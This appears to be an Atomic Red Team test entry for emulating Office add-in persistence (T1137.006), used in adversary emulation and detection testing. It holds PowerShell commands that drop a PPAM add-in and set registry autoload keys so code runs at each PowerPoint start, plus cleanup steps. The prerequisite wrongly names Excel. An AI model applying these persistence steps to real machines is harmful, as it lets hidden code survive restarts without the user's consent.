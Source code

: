 <br/>
<br/>

## Atomic Test #5 - Persistent Code Execution Via PowerPoint VBA Add-in File (PPAM)

Creates a PowerPoint VBA Add-in file (PPAM) which runs automatically when PowerPoint is started
The sample PPA provided launches the notepad as a proof-of-concept for persistent execution from Office.

**Supported Platforms:** Windows

**auto_generated_guid:** f89e58f9-2b49-423b-ac95-1f3e7cfd8277

#### Attack Commands: Run with `powershell`!

```powershell
Copy "PathToAtomicsFolder\T1137.006\bin\Addins\PptVBAaddin.ppam" "$env:APPDATA\Microsoft\Addins\notepad.ppam"
$ver = (New-Object -COMObject "PowerPoint.Application").version
$ExcelRegPath="HKCU:\Software\Microsoft\Office\$Ver\PowerPoint\AddIns\notepad"
New-Item -type Directory $ExcelRegPath -Force | Out-Null
New-ItemProperty $ExcelRegPath "Autoload" -value "1" -propertyType DWORD  | Out-Null
New-ItemProperty $ExcelRegPath "Path" -value "notepad.ppam" -propertyType string | Out-Null
Stop-Process -Name "PowerPnt" -ErrorAction Ignore
Start-Process "PowerPnt"
```

#### Cleanup Commands:

```powershell
$ver = (New-Object -COMObject "PowerPoint.Application").version
Remove-Item "HKCU:\Software\Microsoft\Office\$Ver\PowerPoint\AddIns\notepad" -ErrorAction Ignore
Stop-Process -Name "notepad","PowerPnt" -ErrorAction Ignore
Start-Sleep 3
Remove-Item "$env:APPDATA\Microsoft\AddIns\notepad.ppam"  -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: Microsoft Excel must be installed

##### Check Prereq Commands:

```powershell
try {
  New-Object -COMObject "PowerPoint.Application" | Out-Null
  Stop-Process -Name "PowerPnt"
  exit 0
} catch { exit 1 }
```

##### Get Prereq Commands:

```powershell
Write-Host "You will need to install Microsoft PowerPoint manually to meet this requirement"
```
